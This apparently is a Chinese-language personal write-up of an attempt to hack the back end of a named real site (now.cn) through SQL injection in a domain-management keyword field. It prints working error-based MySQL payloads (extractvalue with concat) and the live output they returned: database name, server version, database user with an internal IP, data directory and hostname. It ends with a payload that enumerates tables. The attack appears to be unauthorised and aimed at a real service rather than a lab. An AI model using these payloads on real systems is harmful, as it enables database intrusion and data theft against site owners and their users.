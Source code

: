 域名就用(now.cn)，密码随便输，然后显示
![](image/3.png)

谷歌到scp3是抗体的意思，应该是应对那些非法访问者的。
有趣。
明天在搞，发现登陆后台的方法好多，现在了解的就有10多个。

第二天，大佬问我日的怎么样，我尴尬一笑

- 弱口令有可能，但是不可能
- xss 我是在没有其他突破点的时候才用 而且xss效果不太好
- 爆破对这种站也不太可能
- 最后一句话，挖注入

自己注册个账户，然后域名管理 关键字框 注入 禁 = 
大佬发来一些代码
```
闭合
1%'||2>1#
1%')||2>1#（闭合成功）

database()
//, -- , /**/, #, --+, -- -, ;,%00,--a 1%') and extractvalue(rand(),concat(0x3a,database()));
#database()=db_now_net_cn

version()
1%') and extractvalue(rand(),concat(0x3a,version())); 
#version()=5.1.65-log

user()
1%') and extractvalue(rand(),concat(0x3a,user())); 
#user()=nownetcn@10.0.61.137

@@version_compile_os
1%') and extractvalue(rand(),concat(0x3a,@@version_compile_os)); 
#@@version_compile_os=unknown-linux-gnu

@@datadir
1%') and extractvalue(rand(),concat(0x3a,@@datadir)); 
#@@datadir=/mysql/data/

@@hostname
1%') and extractvalue(rand(),concat(0x3a,@@hostname)); 
#@@hostname=mainsite-DB
```
经历了近一个小时的干瞪眼，大佬问我做的怎么样，我却说自己干瞪眼了半天
```
1%') and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables where TABLE_SCHEMA like database() limit 0,1))); 
```
